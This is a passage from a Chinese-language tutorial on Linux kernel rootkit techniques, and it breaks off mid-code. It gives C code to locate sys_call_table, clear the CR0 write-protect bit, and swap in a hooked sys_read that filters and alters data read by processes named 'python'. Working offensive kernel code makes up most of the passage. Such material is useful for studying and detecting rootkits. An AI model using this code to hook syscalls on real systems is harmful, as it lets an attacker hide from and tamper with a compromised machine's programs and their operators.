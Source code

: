 ```c
            printk("Syscall table found at: %lx\n", offset);
            return sct;
        }

        offset += sizeof(void *);
    }
    return NULL;
}
```
PAGE_OFFSET是内核内存空间的起始地址。 因为sys_close是导出函数（需要指出的是， sys_open 、 sys_read 等并不是导出的），我们可以直接得到他的地址。查找到sys_close的值之后，根据偏移即可得到sys_call_table的地址。

在修改sys_call_table之前需要需要临时关闭写保护。这个特性可以通过CR0寄存器控制：开启或者关闭，只需要修改一个比特，也就是从0开始数的第16个比特。关闭写保护与恢复写保护代码如下：

```c
unsigned long original_cr0;
original_cr0 = read_cr0();//获取原始cr0寄存去内容
write_cr0(original_cr0 & ~0x00010000);//关闭写保护
...
write_cr0(original_cr0);//恢复写保护
```

关闭了写保护之后便可以修改sys_call_table了。这里我们挂钩一个sys_read函数来理解下sys_call_table hook。实现的功能为对一些程序打印的信息进行过滤修改。
获取了sys_call_table地址之后，并且知道了sys_read在其中的索引之后，就可以修改数组中函数地址的值，索引和函数原型可以查看自己系统的
syscalls.h文件。
修改sys_call_table代码如下：

```c
 write_cr0(original_cr0 & ~0x00010000);
 ref_sys_read = (void *)my_sys_call_table[__NR_read];
 my_sys_call_table[__NR_read] = (unsigned long *)new_sys_read;
 write_cr0(original_cr0);
```
就是先保存原始函数的地址，方便后面调用和还原，然后修改为新的函数的地址，新的sys_read的实现如下：

```c
asmlinkage long new_sys_read(unsigned int fd, char __user *buf, size_t count)
{

    long ret;
    ret = ref_sys_read(fd, buf, count);
    if (ret >= 6 && fd > 2) {
        if (strcmp(current->comm, "python") == 0)
		{

            long i;

            char *kernel_buf;
            if (count > PAGE_SIZE) {

                return ret;
            }
            kernel_buf = kmalloc(count, GFP_KERNEL);
            if (!kernel_buf) {

                return ret;
            }
            if(copy_from_user(kernel_buf, buf, count)) {

                kfree(kernel_buf);
                return ret;
            }

			for (i = 0; i < (ret - 10); i++)
			{
                if (kernel_buf[i] == 'h' &&
```